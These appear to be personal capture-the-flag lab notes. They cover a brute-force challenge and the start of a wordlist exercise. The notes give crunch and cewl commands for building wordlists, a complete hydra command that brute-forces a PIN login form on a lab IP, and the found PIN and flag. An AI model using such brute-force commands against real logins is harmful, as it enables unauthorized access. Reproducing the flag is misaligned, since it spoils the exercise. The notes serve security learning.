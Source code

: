 Day 3: Hydra
first we use [[Crunch]] to generate a wordlist of possible pins by using

`crunch 3 3 0123456789ABCDEF -o 3digits.txt`

The command above specifies the following:

- `3` the first number is the minimum length of the generated password
- `3` the second number is the maximum length of the generated password
- `0123456789ABCDEF` is the character set to use to generate the passwords
- `-o 3digits.txt` saves the output to the `3digits.txt` file

Using the List

analysing `http://10.10.145.239:8000/pin.php`
we can see that the pin is sent as a post ro login.php with the name pin

we can brute force thiis using  [[Hydra]] 

`hydra -l '' -P 3digits.txt -f -v 10.10.145.239 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000`

after a few mins we found that the password **6F5** is valid
using that code and clicking **unlock door** gives us the flag
	THM{pin-code-brute-force}

Day 4: Baby, it's CeWLd outside
we can use [[CeWL]] to generate a cutom brute force wordlist
`cewl -d 2 -m 5 -w passwords.txt http://10.10.142.23 --with-numbers`
now that we have a password list we can generate a username list with the team.php page


